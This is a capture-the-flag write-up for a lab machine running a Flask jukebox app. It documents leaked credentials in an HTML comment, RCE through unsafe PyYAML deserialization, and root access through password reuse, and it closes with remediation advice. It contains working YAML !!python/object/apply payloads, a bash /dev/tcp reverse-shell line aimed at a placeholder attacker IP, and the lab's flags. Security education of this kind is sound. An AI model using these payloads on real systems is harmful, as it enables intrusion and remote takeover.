
Target: 10.48.160.192 machine
Summary
The Beach Bar jukebox web app leaked a hardcoded staff login in an HTML comment, granting DJ-level access. The DJ dashboard's playlist import feature deserialized user-supplied YAML unsafely (yaml.load instead of yaml.safe_load), allowing arbitrary command execution as the bartender user. From there, a hardcoded stream password found in a root-owned process's command line (ps aux) turned out to be reused as the root account's password, giving full root access via su.
Vulnerabilities exploited:
- Hardcoded credentials disclosed in HTML source comment
- Insecure YAML deserialization (PyYAML !!python/object/apply) → RCE
- Credential reuse (service flag/password reused as root's login password)
1. Reconnaissance
Full TCP port scan:
nmap -sC -sV -p- -T4 10.48.160.192

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 9.6p1 (Ubuntu) |
| 80/tcp | HTTP | Gunicorn (Python - Flask app) |
The HTTP service redirected to /login, titled "Beach Bar // Sign in", described as a DJ booth login for managing jukebox playlists.
2. Vulnerability 1; Hardcoded Credentials in HTML Comment
Fetching the login page and inspecting the raw HTML revealed a developer comment left in production:
curl -i http://10.48.160.192/login


3. Enumerating the DJ Dashboard
curl -i -b cookies.txt http://10.48.160.192/dashboard


The dashboard exposed Import and Export playlist features, both working with YAML files - a strong signal to check for insecure deserialization.
Checked the export format to understand expected structure:
curl -s -b cookies.txt http://10.48.160.192/export
yaml
playlist:
name: Sunset Session
vibe: golden hour
tracks:
- artist: Khruangbin
title: Maria Tambien
And the import form (/import) accepts a playlist field via multipart/form-data, either pasted or uploaded as .yml.
4. Vulnerability 2 ;Insecure YAML Deserialization → RCE
PyYAML's yaml.load() (without Loader=SafeLoader) allows constructing arbitrary Python objects from tags like !!python/object/apply, leading to remote code execution.
Proof-of-concept payload (payload1.yaml):
yaml
!!python/object/apply:os.system
args: ['id > /tmp/pwned_test.txt']
Submitted via:
curl -s -b cookies.txt -F "playlist=<payload1.yaml" http://10.48.160.192/import

The app rendered the return code of os.system() (0 = success), confirming arbitrary command execution.
Getting a reverse shell
payload2.yaml:
yaml
!!python/object/apply:os.system args: ['bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"']
Listener:
bash
nc -lvnp 4444 Trigger:
bash
curl -s -b cookies.txt -F "playlist=<payload2.yaml" http://10.48.160.192/import

Shell received as user bartender.
5. User Flag

uid=1001(bartender) gid=1001(bartender) groups=1001(bartender)
User flag:

THM{y4ml_pl4yl1st_pwns_th3_b34ch}6. Privilege Escalation; Credential Reuse
Enumerated running processes:
ps aux

A root-owned process stood out:
root 608 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
The jukeboxd.py source itself turned out to be a red herring , the --stream-pass argument wasn't used for any authentication logic in the script. However, the value looked like a real credential, so it was worth testing for reuse elsewhere.
su root
# Password: SunsetSpritz2024!

The password had been reused as the root account's login password, granting full root access.
7. Root Flag
cat /root/root.txt

Root flag:
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}Root Cause & Remediation
| Issue | Fix |
|---|---|
| Hardcoded demo credentials left in HTML comment | Remove debug/demo accounts before deployment; never leave credentials in comments or client-visible source |
| Unsafe YAML deserialization (yaml.load) | Always use yaml.safe_load(); never deserialize untrusted input with the full loader |
| Credential reuse across services (stream password = root password) | Use unique, randomly generated credentials per service; use a secrets manager instead of CLI arguments/plaintext |
| Secrets passed via command-line args | Avoid --password style CLI flags , visible to any local user via /proc/<pid>/cmdline or ps aux; use env vars or config files with restricted permissions instead |
Command Summary
- # Recon ; nmap -sC -sV -p- -T4 10.48.160.192
- # Found creds in HTML comment (dj/dj), logged in; curl -i -c cookies.txt -d "username=dj&password=dj" http://10.48.160.192/login
- # Found YAML import/export, confirmed unsafe deserialization
- curl -s -b cookies.txt http://10.48.160.192/export
- curl -s -b cookies.txt -F "playlist=<payload1.yaml" http://10.48.160.192/import
- # Reverse shell via YAML RCE
- curl -s -b cookies.txt -F "playlist=<payload2.yaml" http://10.48.160.192/import
- # User flag
- cat /home/bartender/user.txt
- # Privesc via credential reuse found in ps aux
- ps aux | grep jukeboxd
- su root # SunsetSpritz2024!
- # Root flag
- cat /root/root.txt